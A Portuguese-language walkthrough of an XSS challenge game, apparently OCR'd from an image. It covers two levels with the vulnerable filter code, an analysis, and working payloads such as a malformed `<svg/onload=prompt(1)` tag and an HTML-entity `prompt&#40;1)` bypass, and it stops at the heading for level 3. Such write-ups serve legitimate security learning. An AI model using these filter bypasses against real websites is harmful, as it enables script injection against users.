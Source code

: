 ### 🔍 Código:

```js
var stripTagsRE = /<\/?[^>]+>/gi;
input = input.replace(stripTagsRE, '');
return '<article>' + input + '</article>';
```

### 🧠 Análise:

A regex remove qualquer tag HTML completa. Mas se usarmos uma tag malformada (sem `>`), ela não é removida.

### 💡 Estratégia:

* Usar uma tag incompleta, como `<svg/onload=prompt(1)` com espaço no final para que o navegador entenda como válida.

### ✅ Payload:

```html
<svg/onload=prompt(1) 
```

---

## ✅ Level 2 - Bloqueio de `=` e `(`

### 🔍 Código:

```js
input = input.replace(/[=(]/g, '');
```

### 🧠 Análise:

Remove os caracteres essenciais para executar funções, como `prompt(1)`.

### 💡 Estratégia:

* Usar entidades HTML para `(`: `&#40;`.
* O `=` pode ser evitado usando o JavaScript inline em um script SVG.

### ✅ Payload:

```html
<svg><script>prompt&#40;1)</script>
```

---

## ✅ Level 3 - Comentários HTML
